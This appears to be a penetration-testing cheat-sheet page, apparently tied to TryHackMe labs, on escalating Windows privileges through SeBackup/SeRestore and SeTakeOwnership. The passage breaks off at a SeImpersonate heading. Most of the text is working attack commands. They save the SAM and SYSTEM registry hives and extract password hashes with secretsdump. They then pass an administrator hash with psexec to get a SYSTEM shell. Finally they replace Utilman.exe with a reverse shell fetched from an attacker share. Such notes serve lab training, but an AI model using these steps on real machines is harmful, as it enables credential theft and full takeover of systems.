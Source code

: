 - Rights of an account to perform specific tasks
- Can be checked with:
```powershell
whoami /priv 
```
- List of all permission can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

### SeBackup/SeRestore
[SeBackup/SeRestore](Privileges#SeBackup/SeRestore)
- SYSTEM and SAM hives can be backed up using : 
```powershell
# backup SYSTEM
reg save HKLM\SYSTEM C:\User\THMBackup\system.hive

# backup SAM
reg save HKLM\SAM C:\User\THMBackup\sam.hive
```
- These files can be used to extract hashes of users password using impacket's secretsdump [secretsdump.py](Impacket#secretsdump.py)
```bash
# Dump the local account hashes using system.hive and sam.hive
secretsdump.py -system system.hive -sam sam.hive LOCAL
```
- Administrator hashes can be used to perform pass the hash attack to gain system shell.
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.112.124

# We get shell as system.
C:\Windows\System32>
```

### SeTakeOwnership
[SeTakeOwnership](Privileges#SeTakeOwnership)
- `utilman.exe` is a service tha provides ease of access setting at windows login and runs with SYSTEM privileges.
- With `SeTakeOwnership` , we can take ownership of the `utilman.exe` executable and replace it with cmd or a reverse shell.
```powershell
# Take ownership of the utilman executable
takeown /f C:\Windows\System32\Utilman.exe

# Give yourself full permission to the executable
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# Overwrite the executable with reverse shell
copy \\<ip>\public\reverse Utilman.exe

# running a listener
nv -nvlp 9999
# After locking the computer and clicking on ease of access button, we get a reverse shell.
```
### SeImpersonate
